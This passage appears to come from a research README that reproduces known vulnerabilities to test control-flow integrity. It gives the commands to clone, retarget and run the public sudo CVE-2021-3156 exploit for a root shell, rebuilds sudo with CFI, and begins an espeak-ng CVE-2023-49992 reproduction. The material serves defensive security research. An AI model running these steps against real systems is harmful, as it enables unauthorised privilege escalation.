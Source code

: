 #### 2. The exploit
##### Getting the exploit
`git clone https://github.com/CptGibbon/CVE-2021-3156`  
`cd CVE-2021-3156`  
##### Adjusting exploit to run local --and not system-- sudo
`sed -i 's#/usr/bin/sudoedit#/home/exploit/sudo/src/.libs/sudoedit#g' exploit.c `  
`make`
##### Executing the exploit
`./exploit`  
Expected output (root shell): `# `

#### 3. The exploit with CFI
##### i. Building with CFI (__cfi-icall__ replace with other CFI variant) 
```text
./configure CC=clang CXX=clang++ \ 
	CFLAGS='-flto -fvisibility=hidden -fsanitize=cfi-icall -fno-sanitize-trap=cfi-icall' \ 
	CXXFLAGS='-flto -fvisibility=hidden -fsanitize=cfi-icall -fno-sanitize-trap=cfi-icall' \ 
	LDFLAGS='-flto -fvisibility=hidden -fsanitize=cfi-icall -fuse-ld=lld -fno-sanitize-trap=cfi-icall'
```
`make`  
Configure the new sudo to make it executable
`../conf_sudo /home/exploit/cfi_icall/`  
##### ii. Preparing the exploit
`make <cfi-variant>`
##### iii. Running the exploit for a specific CFI variant
`./<cfi-variant>_exploit`


----------

### Stack-based Buffer Overflow - CVE-2023-49992 
Espeak-ng 1.52-dev was discovered to contain a **Stack Buffer Overflow** via the function RemoveEnding at `dictionary.c` [[NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-49992), [Offical issue](https://github.com/espeak-ng/espeak-ng/issues/1827)].

#### __Reproduction steps:__
#### 1. Get source code and build ([*Official build instructions*](https://github.com/espeak-ng/espeak-ng/blob/master/docs/building.md#building-1))
##### i. Download source code
`git clone https://github.com/espeak-ng/espeak-ng.git`  
##### ii. Install dependencies
```text
sudo apt-get install \ 
	make autoconf automake libtool pkg-config \ 
	gcc g++ clang \ 
	libsonic-dev ronn kramdown \   
	libpcaudio-dev
```
##### iii. Modify source code
In **./src/libespeak-ng/wavegen.c** change `int samplerate = 0;` to `extern int samplerate;`  
##### iv. Build
`./autogen.sh`  
`CC=clang CFLAGS=-Wextra ./configure --prefix=/usr`  
`make`
 